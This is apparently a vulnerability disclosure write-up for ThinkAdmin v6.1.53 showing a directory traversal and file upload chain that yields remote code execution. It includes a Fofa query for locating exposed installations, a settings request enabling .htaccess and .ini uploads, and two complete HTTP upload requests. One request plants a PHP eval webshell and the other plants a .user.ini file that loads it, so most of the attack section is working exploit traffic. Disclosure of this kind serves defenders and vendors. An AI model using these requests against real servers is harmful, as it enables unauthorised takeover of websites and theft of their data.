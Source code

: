 ThinkAdmin directory traversal+file upload getshell



Project Introduction

ThinkAdmin is a product that follows [MIT]（ https://mit-license.org/ ）Protocol open source rapid development framework, based on the latest version of  ThinkPHP6 , a minimalist backend management system (compatible with ThinkPHP8)

Official website: https://thinkadmin.top/



Audit version: ThinkAdmin Version v6.1.53
![image](https://github.com/1dreamGN/CVE/assets/112082417/35545e1b-e345-40e9-b502-898b98944dc9)


 

Fofa : body="/admin/api.plugs/script"
![image](https://github.com/1dreamGN/CVE/assets/112082417/32f29b86-1841-441c-9b91-253dc1e53b44)


Vulnerability: Directory traversal+file upload=getshell
Install Composer on the official website
After installation, log in and enter the background
Firstly, set the uploadable suffix for the backend

![image](https://github.com/1dreamGN/CVE/assets/112082417/5beca66e-6158-4642-9bc4-7ea68c022b31)


http://localhost/admin/config/storage.html?spm=m-1-2-3
param：storage%5Bname_type%5D=xmd5&storage%5Blink_type%5D=none&storage%5Ballow_exts%5D=doc%2Cgif%2Cico%2Cjpg%2Cmp3%2Cmp4%2Cp12%2Cpem%2Cpng%2Czip%2Crar%2Cxls%2Cxlsx%2Chtaccess%2Cini&storage%5Blocal_http_protocol%5D=follow&storage%5Blocal_http_domain%5D=&storage%5Btype%5D=local

![image](https://github.com/1dreamGN/CVE/assets/112082417/5d2dde5f-24a3-4022-b7b2-6f7405dfdc08)


First upload a Trojan with any file content as webshell

`POST /admin/api.upload/file HTTP/1.1

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCUB3l9pNDT4UzMSU

Cookie: user cookie

Host: IP：PORT

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="key"

 

..\./1.zip

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="safe"

 

0

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="uptype"

 

local

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="file"; filename="1.zip"

Content-Type: image/png

 

<?php @eval($_POST[1]);?>

------WebKitFormBoundary3VyVEPpvQynFo76H--`

![image](https://github.com/1dreamGN/CVE/assets/112082417/df639676-98ae-4e83-bbf4-25491472ea26)


Construct Payload Upload

http://localhost/admin/api.upload/file

`POST /admin/api.upload/file HTTP/1.1

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCUB3l9pNDT4UzMSU

Cookie: user cookie

Host: IP：PORT

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="key"

 

..\./.user.ini

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="safe"

 

0

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="uptype"

 

local

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="file"; filename="1.ini"

Content-Type: image/png

 

auto_prepend_file=1.zip

------WebKitFormBoundary3VyVEPpvQynFo76H--`

![image](https://github.com/1dreamGN/CVE/assets/112082417/6e90c2b4-8c5e-44a4-945c-cb98e30a86f6)

![image](https://github.com/1dreamGN/CVE/assets/112082417/94ec0974-5103-4735-b179-24af001735e1)

You can see that everything has been uploaded successfully

![image](https://github.com/1dreamGN/CVE/assets/112082417/0ebdec09-b37b-4f7f-a8d8-066c0b84c734)


 

Webshell also successfully parsed
